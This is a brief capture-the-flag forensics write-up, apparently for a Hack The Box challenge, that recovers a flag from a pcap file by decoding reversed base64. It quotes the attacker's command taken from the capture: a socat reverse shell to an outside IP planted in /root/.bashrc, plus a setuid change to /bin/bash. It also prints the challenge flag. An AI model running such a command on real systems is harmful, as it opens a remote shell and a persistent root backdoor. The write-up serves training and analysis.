 # Wrong Spooky Season

Run strings on the .pcap file

and voila’

`echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash`

There is some base64 right? let’s decode it and reverse the text

SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

And here is the flag

### `HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}`

